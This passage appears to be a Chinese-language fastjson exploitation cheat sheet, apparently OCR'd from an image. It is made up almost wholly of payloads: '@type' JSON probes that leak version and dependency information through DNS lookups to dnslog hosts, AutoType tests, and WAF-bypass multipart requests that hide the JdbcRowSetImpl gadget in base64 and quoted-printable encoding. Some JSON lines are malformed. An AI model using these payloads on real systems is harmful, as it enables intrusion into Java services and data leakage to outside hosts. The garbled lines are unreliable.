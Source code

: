 ```json
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","x":{"@type":"java.net.InetSocketAddress"{"address":,"val":"first.dnslog.com"}}},
{"@type":"java.lang.Exception","@type":"com.alibaba.fastjson.JSONException","message":{"@type":"java.net.InetSocketAddress"{"address":,"val":"second.dnslog.com"}}}
```
#### AutoType探测
1.x版本中,当使用`parse(String text)`或者`parseObject(String text)`时
```json
{"@type":"aaaa"}
```
![](2023-01-16-17-46-10.png)  
但在2.x版本,`parseObject`不再反序列化.
#### 依赖环境探测
```json
{"@type":"java.lang.Class","val":${class}}
```
```
org.springframework.web.bind.annotation.RequestMapping spring
org.apache.catalina.startup.Tomcat tomcat
groovy.lang.GroovyShell groovy
com.mysql.jdbc.Driver mysql
java.net.http.HttpClient java 11
```
```json
{"@type":"java.net.Inet4Address", "val":{"@type":"java.lang.String" {"@type":"java.util.Locale", "val":{"@type":"com.alibaba.fastjson.JSONObject",{ "@type": "java.lang.String""@type":"java.util.Locale", "language":{"@type":"java.lang.String" {1:{"@type":"java.lang.Class","val":"TARGET_CLASS"}}, "country":"x.l56y7u6g.dnslog.pw" 
```
```json
{"@type":"java.lang.Character"{"@type":"java.lang.Class","val":"com.mysql.jdbc.Driver"}
```
#### WAF Bypass
编码:base64,Quoted-printable,unicode  
payload: {"@type":"com.sun.rowset.JdbcRowSetImpl"}  
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: Base64
eyJAdHlwZSI6ImNvbS5zdW4ucm93c2V0LkpkYmNSb3dTZXRJbXBsIn0=
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```http
------WebKitFormBoundaryAO5f48pfmr4ErWMN
Content-Disposition: form-data; name=json
Content-Transfer-Encoding: quoted-printable
=7B=22=40type=22=3A=22com.sun.rowset.JdbcRowSetImpl=22=7D
------WebKitFormBoundaryAO5f48pfmr4ErWMN--
```
```json
{,new:[NaN,x'00',{,/*}*/'\x40\u0074\x79\u0070\x65':xjava.langAutoCloseable"  
```